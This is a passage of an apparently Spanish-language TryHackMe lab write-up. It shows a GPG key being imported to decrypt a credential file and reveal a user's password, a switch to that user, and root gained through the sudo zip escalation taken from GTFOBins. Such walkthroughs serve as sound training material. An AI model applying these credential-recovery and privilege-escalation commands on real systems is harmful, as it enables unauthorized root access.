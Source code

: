 ```
gpg:   secret keys imported: 1
skyfuck@ubuntu:~$
```

Una vez importado el certificado, podemos tratar de aplicar un **decrypt** al archivo **credential.pgp**:

```
skyfuck@ubuntu:~$ gpg --decrypt credential.pgp 

You need a passphrase to unlock the secret key for
user: "tryhackme <stuxnet@tryhackme.com>"
1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11 (main key ID C6707170)

gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123jskyfuck@ubuntu:~$
```

Ya tenemos las credenciales del usuario **merlin**, las cuales son:
 - merlin : asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j

Por lo tanto, ya podemos migrar a dicho usuario:

```
skyfuck@ubuntu:~$ su merlin
Password: 
merlin@ubuntu:/home/skyfuck$ whoami
merlin
merlin@ubuntu:/home/skyfuck$
```

Vamos a enumerar un poco el usuario para ver como podemos escalar privilegios:

```
merlin@ubuntu:/home/skyfuck$ id
uid=1000(merlin) gid=1000(merlin) groups=1000(merlin),4(adm),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare)
merlin@ubuntu:/home/skyfuck$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
merlin@ubuntu:/home/skyfuck$
```

Podemos ejecutar como el usuario **root** el binario `/usr/bin/zip`; por lo que utilizando nuestra página de confianza [GTFobins](https://gtfobins.github.io/) podemos convertirnos en el usuario **root**:

```
merlin@ubuntu:/home/skyfuck$ TF=$(mktemp -u)
merlin@ubuntu:/home/skyfuck$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# whoami
root
# 
```

Ya somos el usuario **root** y podemos visualizar la flag (root.txt).